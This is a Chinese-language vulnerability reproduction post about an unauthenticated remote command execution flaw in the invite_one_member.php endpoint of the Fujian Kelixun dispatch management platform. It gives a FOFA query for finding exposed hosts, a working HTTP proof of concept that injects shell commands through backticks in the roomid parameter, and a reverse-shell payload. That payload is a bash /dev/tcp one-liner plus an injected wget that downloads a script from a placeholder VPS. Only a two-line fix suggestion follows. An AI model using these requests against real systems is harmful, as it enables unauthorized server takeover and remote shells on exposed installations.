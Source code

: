 
# 福建科立讯通信 指挥调度管理平台 RCE 漏洞复现

### 0x01 产品简介

   福建科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供[高效的](https://so.csdn.net/so/search?q=%E9%AB%98%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务，并即时获取现场反馈和报告。

### 0x02 漏洞概述

  福建科立讯通信有限公司指挥调度管理平台 invite\_one\_member.php 接口处存在远程命令执行漏洞，未经身份认证的攻击者可通给该漏洞远程执行命令，写入后门文件可导致服务器失陷。

### 0x03 复现环境

FOFA：body="指挥调度管理平台"

![](assets/1699929197-c03af0f205916a9297e4111006f1b25c.png)

### 0x04 漏洞复现 

PoC

```http
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

PS：漏洞没有回显，可将命令结果写到 txt 里面或者 dnslog 平台验证 

![](assets/1699929197-973de5ad138df7e9e90f6122fb3ad353.png)

![](assets/1699929197-88a85a7ba219abd5e113309a0328fe0f.png)

**反弹 Shell**

```typescript
!/bin/sh
bash -c 'exec bash -i >& /dev/tcp/VPSip/6666 0>&1'
```

```http
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`wget+http://vpsip/1.sh+-O+/tmp/shell.sh` HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](assets/1699929197-616a0c393ceebd90adf4a606172a4fa1.png)

### ![](assets/1699929197-9bded5793f6e5fdcbd0be4aa5cab1cf1.png) 0x05 修复建议

 关闭互联网暴露面或接口处设置访问权限

 升级至安全版本
